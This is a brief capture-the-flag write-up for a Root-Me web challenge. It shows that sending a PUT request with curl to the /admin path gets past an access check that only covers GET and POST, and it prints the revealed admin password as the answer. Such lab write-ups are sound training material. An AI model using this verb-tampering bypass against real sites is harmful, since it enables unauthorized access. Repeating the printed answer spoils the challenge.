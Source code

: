 ## It happens, sometimes

### Task

Access the administration section of the website and get password.

### Solution

1. Find administration section of site just by adding `/admin` to root url: `http://challenge01.root-me.org/realiste/ch3/admin/`
2. Don't try to find login/password on site.
3. Make any type of reques except typical **GET** and **POST** request, for example **PUT**:

```html
$ curl -X PUT http://challenge01.root-me.org/realiste/ch3/admin/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <title>Admin section</title>
</head>
<body>
    <h1>Mot de passe / password : 0010110111101001</h1>
</body>
</html>
```

### Answer

Password is `0010110111101001`
